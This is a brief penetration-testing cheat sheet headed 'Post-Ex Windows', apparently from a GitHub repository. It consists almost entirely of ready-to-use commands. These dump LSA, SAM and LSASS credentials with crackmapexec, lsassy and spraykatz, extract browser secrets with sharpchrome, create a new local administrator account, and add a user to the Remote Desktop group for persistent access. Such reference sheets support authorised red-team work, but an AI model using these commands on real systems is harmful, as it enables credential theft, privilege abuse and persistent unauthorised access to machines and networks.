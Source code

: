 # Post-Ex Windows

## **Dump secrets**

LSA & SAM

```bash
crackmapexec smb perim_up.txt -u '<user>' -d '<domain>' -p '<pass>' --lsa
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --sam

lsassy -d '.' -u 'Administrateur' -H '<hash>' <ip>
lsassy -d <domain> -u <user> -p <pass> <ip>

./spraykatz.py -u <user> -p <password> -t <ip>
```

Browser secrets

```bash
sharpchrome.exe
```

create/add new local admin account 

```bat
net user add <user> <pass>
net localgroup "Administrators" <user> /add
```

add user to RDP group

```bat
net localgroup "Remote Desktop Users" <user> /add
```